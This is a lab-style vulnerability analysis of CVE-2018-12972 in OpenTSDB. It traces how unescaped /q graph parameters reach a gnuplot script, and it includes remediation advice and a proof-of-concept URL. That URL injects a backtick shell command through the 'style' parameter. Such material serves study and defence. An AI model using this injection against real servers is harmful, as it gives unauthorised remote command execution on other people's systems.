



# CVE-2018-12972 CWE-78 OpenTSDB RCE

## Vulnerability Background
- **/q Interface**: HTTP API interface in OpenTSDB used to query time series data, supporting multiple parameters to meet different query needs. When requesting graphical output, OpenTSDB dynamically generates a `Gnuplot` script and calls the `Gnuplot` program to process the script, generating corresponding charts to visually display the query results. `/q` interfaces also support other parameters for more flexible query functions, such as `xrange` and `yrange`: setting the display range for the X and Y axes.
- **Gnuplot Scripts**: OpenTSDB uses `Gnuplot` scripts to convert stored time series data into visual charts, helping users analyze and understand data trends more effectively.

## Vulnerability Mechanism
This vulnerability allows attackers to execute arbitrary operating system commands by sending specific parameters (such as `o`, `key`, `style`, `yrange`, and `y2range` to `/q` URIs. This leads to remote command execution. Because OpenTSDB lacks proper input validation when handling these parameters, attackers can exploit this vulnerability to execute arbitrary code on affected servers.

## Vulnerability Location
1. At line **251** of file **src \tsd \RpcManager .java**, the `initializeBuiltinRpcs` method is used to initialize the built-in RPC (Remote Procedure Call) interface. The **290** line determines whether the user interface feature is enabled based on the value of `enableUi`. If the `enableUi` is `true`, multiple HTTP processors will be added to the `http` mapping, including instances that map path `"q"` to `GraphHandler`.

```java
private void initializeBuiltinRpcs(final String mode,
        final ImmutableMap.Builder<String, TelnetRpc> telnet,
        final ImmutableMap.Builder<String, HttpRpc> http) {
    // ...
      if (enableUi) {
        // ...
        http.put("q", new GraphHandler());
        // ...
      }
    // ...
}
```

2. **Handling URL Requests**: In the **src/tsd/GraphHandler.java** file, at line **109**, when a user provides parameters via URL and submits a request, the `GraphHandler` class of parameterized `execute` method will be called. This method handles HTTP requests and generates responses. If the request contains `json`, `png`, or `ascii` parameters, `doGraph` methods are called to handle the logic for chart generation. Next, track and parse the query parameters using the `doGraph` function.

```java
public void execute(final TSDB tsdb, final HttpQuery query) {
    if (!query.hasQueryStringParam("json")
        && !query.hasQueryStringParam("png")
        && !query.hasQueryStringParam("ascii")) {
      String uri = query.request().getUri();
      if (uri.length() < 4) {  // Shouldn't happen...
        uri = "/";             // But just in case, redirect.
      } else {
        uri = "/#" + uri.substring(3);  // Remove "/q?"
      }
      query.redirect(uri);
      return;
    }
    try {
      doGraph(tsdb, query);
    } catch (IOException e) {
      query.internalError(e);
    } catch (IllegalArgumentException e) {
      query.badRequest(e.getMessage());
    }
  }
```

3. In the **src/tsd/GraphHandler.java** file, at line **135, the `doGraph` method parses other parameters in the request, such as time range and data queries. At line **208**, the `setPlotParams` function is called, extracting the specified parameters from the query string. Afterwards, an `RunGnuplot` object will be created to execute the script file. Next, let's analyze the `setPlotParams` function and the `RunGnuplot` object separately.

```java
private void doGraph(final TSDB tsdb, final HttpQuery query)
    // ... ...
    setPlotParams(query, plot);
    // ... ...

    final RunGnuplot rungnuplot = new RunGnuplot(query, max_age, plot, basepath,
            aggregated_tags, npoints);
	// ... ...
  }
```

4. **Extract specified parameters**:

(1) In the **src/tsd/GraphHandler.java** file, line **711** `setPlotParams` function, which extracts specified parameters from the query string. After processing a series of parameters through `popParam` functions, some parameters will be `stringify` for subsequent JSON format conversion. Finally `plot.setParams(params)` apply these parameters to the `plot` object. Next, we will analyze the `popParam`, `stringify`, and `plot.setParams(params)` methods separately.

```java
 static void setPlotParams(final HttpQuery query, final Plot plot) {
    final HashMap<String, String> params = new HashMap<String, String>();
    final Map<String, List<String>> querystring = query.getQueryString();
    String value;
    if ((value = popParam(querystring, "yrange")) != null) {
      params.put("yrange", value);
    }
    if ((value = popParam(querystring, "y2range")) != null) {
      params.put("y2range", value);
    }
    if ((value = popParam(querystring, "ylabel")) != null) {
      params.put("ylabel", stringify(value));
    }
    if ((value = popParam(querystring, "y2label")) != null) {
      params.put("y2label", stringify(value));
    }
    if ((value = popParam(querystring, "yformat")) != null) {
      params.put("format y", stringify(value));
    }
    if ((value = popParam(querystring, "y2format")) != null) {
      params.put("format y2", stringify(value));
    }
    if ((value = popParam(querystring, "xformat")) != null) {
      params.put("format x", stringify(value));
    }
    if ((value = popParam(querystring, "ylog")) != null) {
      params.put("logscale y", "");
    }
    if ((value = popParam(querystring, "y2log")) != null) {
      params.put("logscale y2", "");
    }
    if ((value = popParam(querystring, "key")) != null) {
      params.put("key", value);
    }
    if ((value = popParam(querystring, "title")) != null) {
      params.put("title", stringify(value));
    }
    if ((value = popParam(querystring, "bgcolor")) != null) {
      params.put("bgcolor", value);
    }
    if ((value = popParam(querystring, "fgcolor")) != null) {
      params.put("fgcolor", value);
    }
    if ((value = popParam(querystring, "smooth")) != null) {
      params.put("smooth", value);
    }
    if ((value = popParam(querystring, "style")) != null) {
      params.put("style", value);
    }
    // This must remain after the previous `if' in order to properly override
    // any previous `key' parameter if a `nokey' parameter is given.
    if ((value = popParam(querystring, "nokey")) != null) {
      params.put("key", null);
    }
     plot.setParams(params);
 }
```

(2) In the **src/tsd/GraphHandler.java** file, line **674** `popParam` method is used to remove the specified name (`param`) from the query parameter mapping (`querystring`) and return the last value of that parameter. However, special characters in the parameters were not processed.

```java
/**
   * Pops out of the query string the given parameter.
   * @param querystring The query string.
   * @param param The name of the parameter to pop out.
   * @return {@code null} if the parameter wasn't passed, otherwise the
   * value of the last occurrence of the parameter.
   */
  private static String popParam(final Map<String, List<String>> querystring,
                                     final String param) {
    final List<String> params = querystring.remove(param);
    if (params == null) {
      return null;
    }
    return params.get(params.size() - 1);
  }
```

(3) In the **src/tsd/GraphHandler.java** file, line **659** `stringify` functions format and escape the input string, while line 662 calls the `HttpQuery.escapeJson` method to continue processing.

```java
  /**
   * Formats and quotes the given string so it's a suitable Gnuplot string.
   * @param s The string to stringify.
   * @return A string suitable for use as a literal string in Gnuplot.
   */
  private static String stringify(final String s) {
    final StringBuilder buf = new StringBuilder(1 + s.length() + 1);
    buf.append('"');
    HttpQuery.escapeJson(s, buf);  // Abusing this function gets the job done.
    buf.append('"');
    return buf.toString();
  }
```

(4) In the **src \tsd \HttpQuery .java** file, line **478** `escapeJson` method is used to escape input strings `s` into JSON-formatted strings, and to escape specific control characters (such as double quotes, backslashes, carriage returns, line breaks, etc.).

```java
 /**
   * Escapes a string appropriately to be a valid in JSON.
   * Valid JSON strings are defined in RFC 4627, Section 2.5.
   * @param s The string to escape, which is assumed to be in .
   * @param buf The buffer into which to write the escaped string.
   */
  static void escapeJson(final String s, final StringBuilder buf) {
    final int length = s.length();
    int extra = 0;
    // First count how many extra chars we'll need, if any.
    for (int i = 0; i < length; i++) {
      final char c = s.charAt(i);
      switch (c) {
        case '"':
        case '\\':
        case '\b':
        case '\f':
        case '\n':
        case '\r':
        case '\t':
          extra++;
          continue;
      }
      if (c < 0x001F) {
        extra += 4;
      }
    }
    if (extra == 0) {
      buf.append(s);  // Nothing to escape.
      return;
    }
    buf.ensureCapacity(buf.length() + length + extra);
    for (int i = 0; i < length; i++) {
      final char c = s.charAt(i);
      switch (c) {
        case '"':  buf.append('\\').append('"');  continue;
        case '\\': buf.append('\\').append('\\'); continue;
        case '\b': buf.append('\\').append('b');  continue;
        case '\f': buf.append('\\').append('f');  continue;
        case '\n': buf.append('\\').append('n');  continue;
        case '\r': buf.append('\\').append('r');  continue;
        case '\t': buf.append('\\').append('t');  continue;
      }
      if (c < 0x001F) {
        buf.append('\\').append('u').append('0').append('0')
          .append((char) Const.HEX[(c >>> 4) & 0x0F])
          .append((char) Const.HEX[c & 0x0F]);
      } else {
        buf.append(c);
      }
    }
  }
```

(5) Finally, trace the `plot.setParams` method in the **src/graph/Plot.java** file, line **137** of the setParams function. In `setParams` method, each key-value pair in the incoming `params` `params` mapping is extracted and stored in the `this.params`.

```java
 public void setParams(final Map<String, String> params) {
    // check "format y" and "format y2"
    String[] y_format_keys = {"format y", "format y2"};
    for(String k : y_format_keys){
      if(params.containsKey(k)){
        params.put(k, URLDecoder.decode(params.get(k)));
      }
    }
    this.params = params;
  }
```

Therefore, parameters that pass through `stringify` are included in double quotes, and any special characters inside are escaped, making it difficult to evade and use them later. However, some parameters are not escaped, such as `yrange`, `y2range`, `key`, `style`, and <u> backquotes are allowed in `Gnuplot` </u> to execute the `sh` command, we can write the command for the backquoted package in the `Gnuplot` script file, and the command we write when executing the `Gnuplot` script file will also be executed. This is where the vulnerability lies.

5. Continue step 4. After completing the parameter settings, create an `RunGnuplot` object. In the **src/tsd/GraphHandler.java** file, at line **757**, write the parameters parsed earlier into the `plot` property, then write the parameters into the `Gnuplot` script file and execute them , and the malicious code we write by parameter will also execute at this time.

```java
private static final class RunGnuplot implements Runnable {
   private final HttpQuery query;
   private final int max_age;
   private final Plot plot;
   private final String basepath;
   private final HashSet<String>[] aggregated_tags;
   private final int npoints;
   public RunGnuplot(final HttpQuery query, 
                     final int max_age,
                     final Plot plot,
                     final String basepath,
                     final HashSet<String>[] aggregated_tags,
                     final int npoints) {
     // ... 
     this.plot = plot;
     if (IS_WINDOWS)
       this.basepath = basepath.replace("\\", "\\\\").replace("/", "\\\\");
     else
       this.basepath = basepath;
     // ...
   }
```

**Fix:**

Added code to check whether variables contain backquotes or their corresponding encoding forms. If it exists, throw a `BadRequestException` exception indicating that parameter `param` contains a backquote.

## Remediation

Replace OpenTSDB 2.3.0 with a later maintained build in which graph parameters are validated before they are written to the gnuplot script. Values such as `style`, labels, dimensions, and ranges must be selected from strict allowlists or serialized as data; they must never be concatenated into gnuplot commands where backticks or command substitutions are interpreted.

If no patched package is available, disable the `/q` graph endpoint and gnuplot integration, or place the endpoint behind authentication and an allowlisting reverse proxy. Run OpenTSDB and gnuplot as a dedicated, sandboxed account without shell access, sensitive filesystem permissions, or outbound network access.

## Affected Versions
OpenTSDB <= 2.3.0

## Environment Setup
Start the Docker environment, OpenTSDB version 2.3.0



## Vulnerability Reproduction
1. Since exploiting a vulnerability requires knowing the name of a non-empty `metric`, use the following command to view the `metric` list

```bash
curl "http://localhost:4242/api/suggest?type=metrics&q=&max=10"; echo
```

2. If the data is empty, use the following command to create a metric named `sys.cpu.nice` using the API and add a record; If the target `OpenTSDB` has `metric` and is not empty, it does not need to be executed

```bash
curl -X POST -d '[{"metric": "sys.cpu.nice", "timestamp": 1676984400, "value": 50, "tags": {"host": "server1"}}]' http://localhost:4242/api/put; echo
```



3. Access the following URL to see the result that returned `ping 127.0.0.1`

```http
http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&yrange=&o=&ylabel=&wxh=1516x644&style=`ping%20-c%2010%20127.0.0.1`&baba=lala&grid=t&json
```



## PoC Analysis

```http
http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&yrange=&o=&ylabel=&wxh=1516x644&style=`ping%20-c%2010%20127.0.0.1`&baba=lala&grid=t&json
```

`style` The parameter is set to 

```
`ping%20-c%2010%20127.0.0.1`
```

After URL encoding and decoding, the value of `yrange` is 

```
`ping -c 10 127.0.0.1`
```

and write it into the `Gnuplot` script file. Due to the existence of the backquotes, the script executes the content in the backquotes `Gnuplot` as `sh` commands, successfully implementing RCE

## References
[ OpenTSDB Remote Command Execution Vulnerability Analysis - [CVE-2018-12972] | Chybeta ](https://chybeta.github.io/2018/08/11/OpenTSDB远程命令执行漏洞分析-【CVE-2018-12972】/ )

[OpenTSDB vulnerable to OS Command Injection · CVE-2018-12972 · GitHub Advisory Database](https://github.com/advisories/GHSA-cx2v-jrjc-g54w)

[Many parameters to the /q URL can execute command, including o, key, style, yrange and its json input, y2range and its json input. · Issue #1239 · OpenTSDB/opentsdb](https://github.com/OpenTSDB/opentsdb/issues/1239)

[Reference 1](https://chybeta.github.io/2018/08/11/OpenTSDB远程命令执行漏洞分析-【CVE-2018-12972】/)
